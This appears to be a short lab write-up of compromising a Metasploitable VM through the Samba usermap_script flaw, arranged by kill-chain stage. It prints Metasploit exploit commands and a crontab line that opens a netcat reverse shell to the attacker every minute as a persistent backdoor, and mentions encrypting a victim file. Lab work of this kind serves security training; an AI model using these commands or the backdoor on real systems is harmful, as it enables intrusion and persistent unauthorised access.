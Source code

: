 # Exploiting `samba`


### Reconnaissance
- Netdiscover to identify IP Address of Metasploitable (Target) VM 
- A bash script running nmap scans to identify: 
    - Open Ports 
    - Services 
    - Versions 
    - Operating System

- Identified Port 139 and 445 are open and running SMB v3.x to 4.x

- enum4linux-ng to enumerate Samba shares 
- Identified version as 3.0.20 which is vulnerable to 'Username' map script' Command Execution

### Weaponization
- Used Metasploit Framework to automate the exploit 
- The exploit used is usermap_script 
- Metaploit path is `exploit/multi/samba/usermap_script`
- Default payload was used

```bash 
msfconsole 
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.105 # Target IP
set LHOSTS 192.168.56.106 # Kali IP
```

### Delivery
- Ran exploit 

```bash 
run 
```

### Exploitation 
- The exploit provides a shell with root privileges 
- Confirmed via `whoami`

### Installation 
- Created a cronjob that connects back to Kali machine with shell access 

```bash 
echo "* * * * * nc -e /bin/bash <kali_ip> 4444" >> /etc/crontab
```

### Command And Control 
- Even after the Metasploitable machine is rebooted the cronjob will attempt to connect back to the listener

### Actions On Objectives 
- Gained access 
- Created a persistent backdoor 
- Encrypted a file (/home/user/important_file.txt) and removed original 
